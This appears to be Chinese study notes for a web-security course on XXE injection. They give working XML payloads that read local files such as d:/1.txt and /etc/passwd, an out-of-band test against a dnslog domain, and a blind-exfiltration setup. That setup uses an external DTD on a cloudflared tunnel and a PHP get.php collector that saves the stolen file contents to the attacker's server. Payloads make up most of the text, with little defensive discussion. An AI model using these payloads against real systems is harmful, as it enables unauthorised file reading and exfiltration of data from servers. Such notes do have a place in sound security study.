# WEB攻防-XML&XXE安全&无回显方案&OOB盲注&DTD外部实体&黑白盒挖掘

## 读取文件



输入密码抓包



修改成攻击代码   读出d盘1.txt文件

```
<?xml version="1.0"?>
<!DOCTYPE user [
<!ENTITY test SYSTEM  "file:///d:/1.txt">]>

<user><username>&test;</username><password>111</password></user>

```



## 带外测试

rv4pa3.dnslog.cn



```
<?xml version="1.0" ?>
<!DOCTYPE test [
  <!ENTITY % file SYSTEM "http://rv4pa3.dnslog.cn">
  %file;
]>
<user><username>&send;</username><password>xiaodi</password></user>
```



## 外部引用实体dtd

创建2.dtd，放入服务器

```
.\cloudflared.exe tunnel --url http://127.0.0.1:80 --http-host-header www.1234.com
```

```
<!ENTITY send SYSTEM "file:///d:/1.txt">
```



抓包修改

```
<?xml version="1.0" ?>
<!DOCTYPE test [
  <!ENTITY % file SYSTEM "https://apartments-intl-average-considered.trycloudflare.com/2.dtd">
  %file;
]>
<user><username>&send;</username><password>123</password></user>
```




成功回显



## 无回显读文件

准备get.php,内容如下 上传到服务器

```
<?php
$data=$_GET['file'];
$myfile = fopen("file.txt", "w+");
fwrite($myfile, $data);
fclose($myfile);
?>
```

准备2.dtd  上传到服务器

```
<!ENTITY % all "<!ENTITY send SYSTEM '服务器地址/get.php?file=%file;'>">
```

抓包 修改 repeater ->send

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///d:/1.txt">
<!ENTITY % remote SYSTEM "服务器地址/get.php">
%remote;
%all;
]>

<root>&send;</root>
```




 repeater ->send

在服务下生成file.txt 内容为 1.txt内容

## Linux简单案例

[web.jarvisoj.com:9882](http://web.jarvisoj.com:9882/)



抓包

python搭建的网站判断可能是linux系统



修改

```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "file:///etc/passwd">
]>
<x>&f;</x>
```






## 不能读空格 伪协议读法

```
php://filter/read=convert.base64-encode/resource=文件名
```

